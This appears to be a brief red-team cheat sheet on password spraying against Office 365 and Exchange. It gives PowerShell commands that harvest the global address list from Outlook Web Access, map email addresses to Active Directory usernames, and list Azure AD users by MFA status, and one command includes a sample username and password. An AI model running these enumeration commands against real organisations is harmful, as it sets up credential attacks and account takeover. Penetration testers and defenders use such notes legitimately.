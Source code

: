# Password Spraying
By connecting to Outlook Web Access Portal and utilizing the FindPeople method, it is able to gather the list of all email addresses:
```
Get-GlobalAddressList -ExchHostname outlook.office365.com -UserName thureinsoe@insomnia.com -Password 123456%*@aA -OutFile global-address-list.txt

```
# Exchange Service
Connecting to Exchange Service, it is also able to retrieve the Active Directory username corresponding to the given email address
```
Get-ADUsernameFromEWS -EmailList gotham-emails.txt -ExchHostname outlook.office365.com -Remote
```
# Enabling Multi-Factor Authentication Users
The following MSOnline PowerShell command allows Azure AD administrators to list Azure AD users and the state of their MFA configuration
```
Get-MsolUser -EnabledFilter EnabledOnly -MaxResults 50000 | select DisplayName,UserPrincipalName,@{N="MFA Status"; E={ if( $_.StrongAuthenticationRequirements.State -ne $null){ $_. StrongAuthenticationRequirements.State} else { "Disabled"}}} | export-csv mfaresults.csv
```
